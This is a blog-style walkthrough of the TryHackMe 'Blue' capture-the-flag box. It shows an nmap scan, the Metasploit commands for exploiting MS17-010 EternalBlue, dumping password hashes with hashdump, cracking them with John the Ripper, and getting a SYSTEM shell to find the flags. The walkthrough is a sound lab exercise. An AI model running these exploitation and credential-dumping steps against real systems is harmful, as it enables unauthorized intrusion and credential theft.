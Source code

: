 ```yaml
---
layout : post 
title: TryHackMe Blue
author: Edwards
date: 2020-10-2
categories: [CTF, TryHackMe]
tags: [Windows, Easy]
math: true
--- 
```


## Through this box we are going to learn :

Scan a machine.
Exploit a machine with metasploit.
Crack password with John The Ripper.
Use powershell to find flags inside a windows machine.

### Section 1 : Recon

ip=10.10.77.120

Let's start by scanning the machine with nmap
```bash
edwards@kali:~$ nmap -T4 -p- -A 10.10.77.120
```
- -T4 : For the speed of the scan, not recommended on real pentest situation.
- -p- : Scan all ports on the machine, so you don't miss anything.
- -A : Enable all kind of scanning, like OS detection.

![image](/assets/img/Blue/nmap.png)

We can see that we have the OS version and the ports that are open.
Let's go on google to find an exploit for this Windows version. 

I found on Rapid 7 an exploit that we can use on metasploit.

### Section 2 : Exploit

Start metasploit to use the exploit that we found.
```bash
msfconsole
```

Use the command search + the name of the exploit
```bash 
search ms17-010
```

Next step is to say "use + full exploit path" 
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Display the options with "options" (clever ;) )
If you are not familiar with metasploit, you can see that their are a bunch of options.
Some of them are required but they are already set. 
You just have to enter your target ip with the "set RHOSTS <ip>" 

![image](/assets/img/Blue/rhost.png)
_The options display should look like this after_

Use the command "run" to launch the exploit.
_Or "exploit" if you are a cool kid_

### Section 3 : Cracking hash

We are in ! 

Our next task is to crack the hash password.

We can dump the password with "hashdump".
```bash
hashdump
```
![image](/assets/img/Blue/hashdump.png)

Let's write the output in a file called password.txt.

Then I used a tool called "john the ripper", an open source and very efficient password cracker.

![image](/assets/img/Blue/john.png)
_TryHackMe says that the rockyou.txt wordlist is enough so I used that._

### Section 4 : Find flags
Let's head back to metasploit and find flags hidden inside the machine. 

I used the command "shell" to interact with the file directory manager.
```bash
shell
```
![image](/assets/img/Blue/shell.png)

Always check who you are in the system with the "whoami" command.
```bash
whoami
```

![image](/assets/img/Blue/whoami.png)

We are authority system, look how lucky we got !

Go back to meterpreter  with "ctrl+z". 
Use the command <search -f flag*> to find the location of the 3 flags.

![image](/assets/img/Blue/location.png)

Go back inside with "shell" command and look for them.
- "cd" to move through the file system.
- "more" <file_name> to open the file.
- "dir" to know where you are.

![image](/assets/img/Blue/flags.png)


Congrats ! You finished the box ! 
